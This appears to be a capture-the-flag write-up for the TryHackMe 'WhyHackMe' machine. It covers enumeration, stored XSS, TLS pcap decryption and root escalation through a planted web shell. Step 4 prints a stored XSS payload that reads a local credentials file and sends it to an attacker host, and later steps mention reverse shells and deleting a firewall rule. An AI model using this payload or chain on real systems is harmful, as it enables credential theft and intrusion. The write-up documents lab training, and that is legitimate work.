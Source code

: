# WhyHackMe

https://tryhackme.com/room/whyhackme, rated Medium

1. A scan will reveal 21, 22 and 80. Accessing FTP reveals a `update.txt` file, saying that some credentials will be available from localhost/dir/pass.txt but only by the admin

2. Going to the website reveals a simple blog. You can login at login.php, register at register.php and so on, with blog.php being where you can leave comments once logged in. Notably, a comment from the admin already exists saying they will 'carefully review all comments made', a fairly strong hint that this is an XSS exploit.

3. The cookie for your user is HTTPOnly, so it will not be possible to steal the admin's cookie. However, first finding the point of injection is important. Creating a comment with script tags gets escaped when it is rendered. However, the user's name is also rendered and by registering a user with xss in its username, you can observe this is successfully executed.

4. To exploit the admin's viewing of the site, I created a user with the following username:

     `<script>fetch("http://127.0.0.1/dir/pass.txt").then(r => r.text()).then(t => fetch("http://attack-box:1234?q="+t,{mode:"no-cors"}))</script>`

   Make a comment with any content on the blog so the stored XSS is in place. I then created a python webserver on my attack box and waited. After a minute, I got a hit:

     `10.10.63.172 - - [05/Jan/2024 21:32:15] "GET /?q=jack:[redacted] HTTP/1.1" 200 -`

6. These credentials allow access as the user 'jack' over ssh, where you can access the user flag. `sudo -l` reveals that jack can run iptables as root, but this does not provide easy privesc

7. Enumerating the machine some more, you can find under `/opt` another note and a `capture.pcap`. The note says there is a hacked site running out of `/usr/lib/cgi-bin` which is inaccessible to jack, and that the pcap will provide help. Opening the pcap reveals encrypted tls communication, with the only thing that can be recovered being the target port, 41312

8. To decrypt the traffic a SSL key log or the private key of the server is required. Fortunately, the 41312 site is defined in the `000-default.conf` under /etc/apache2/sites-available. This reveals the path of the cert, which is readable: `/etc/apache2/certs/apache.key`

9. Putting this into wireshark (Edit > Preferences > Protocols > TLS > RSA Keys List) will decrypt the traffic and show how to access the shell that has been placed on the system. To view the site externally, use `sudo iptables -D INPUT 1` as jack to delete the blocking rule. The shell which requires the correct query string params and path, allows shell exec as the user 'h4ck3d'.

10. To finish the machine, use the shell to get a reverse shell or whoever you wish to get an interactive session (the machine has nc.openbsd). Then, by checking `sudo -l` you can see the hacker user has full access. Switch to root and get the final flag.
